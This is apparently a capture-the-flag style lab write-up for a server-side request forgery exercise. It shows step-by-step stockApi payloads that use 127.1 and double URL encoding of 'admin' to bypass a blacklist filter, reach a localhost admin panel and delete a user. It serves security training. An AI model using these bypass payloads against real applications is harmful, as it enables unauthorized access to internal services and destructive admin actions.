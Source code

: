 # SSRF with blacklist-based input filter

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

Note when you
ping 127.0.0.1 and localhost and 127.1 all are same

![screenshot](./images/lab3_ping_local_host.png)

---

### step 1

go to stock check feature which fetches data from an internal system and intercept
send to repeater

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
send request respose =>200 ok

stockApi=http%3A%2F%2F127.0.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
send reuest response => 400 bad request => "External stock check blocked for security reasons"

remove _%3A8080_
stockApi=http%3A%2F%2F127.1%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D3
send request resposne => 404 Not found

remove _product%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1_
stockApi=http%3A%2F%2F127.1%2Fadmin
send request response => 400 bad request => "External stock check blocked for security reasons"

### step2

use extenstion burpsuite _hackvertor_
highlight _admin_ send to extenstion _hackvertor_ => _encode_ => _urlencode_all_
stockApi=http%3A%2F%2F127.1%2F<@urlencode_all>admin<@/urlencode_all>

now again _<@urlencode_all>admin<@/urlencode_all>_ send _hackvertor_ => _convert tags_
_<@urlencode_all>admin<@/urlencode_all>_ => _%61%64%6D%69%6E_
stockApi=http%3A%2F%2F127.1%2F%61%64%6D%69%6E

again _%61%64%6D%69%6E_ _hackvertor_ => _encode_ => _urlencode_all_
_%61%64%6D%69%6E_ => _<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>_
stockApi=http%3A%2F%2F127.1%2F<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>

now again _<@urlencode_all>%61%64%6D%69%6E<@/urlencode_all>_ send _hackvertor_ => _convert tags_
_%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45_ => _%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45_
stockApi=http%3A%2F%2F127.1%2F%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45
send request response => 200 ok

stockApi=http%3A%2F%2F127.1%2F%25%36%31%25%36%34%25%36%44%25%36%39%25%36%45/delete?username=carlos
send request response => 302 found

lab solved :)
